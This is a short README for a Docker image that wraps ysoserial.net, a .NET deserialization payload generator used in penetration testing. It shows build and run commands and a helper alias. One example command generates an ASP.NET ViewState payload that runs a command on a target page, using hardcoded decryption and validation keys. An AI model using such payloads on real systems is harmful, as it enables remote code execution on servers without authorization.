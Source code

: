 ## Docker image for ysoserial.net

### Usage

- Build the image
```bash
docker build -t ysoserial.net .
```

- Run the image
```bash
docker run -dit --name ysoserial ysoserial-image
```

- You can also use the ysoserial_runner.sh script to interact with ysoserial.net
```bash
alias ysoserial='/opt/scripts/ysoserial_runner.sh '

ysoserial run '-p ViewState  -g TextFormattingRunProperties -c "ping 10.10.14.95" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"'
```

#### Example

![alt text](images/image.png)

#### Note:
- The image is about 5GB so it will take some time to build and make sure you have enough space on your machine.
 
![alt text](images/image-1.png)
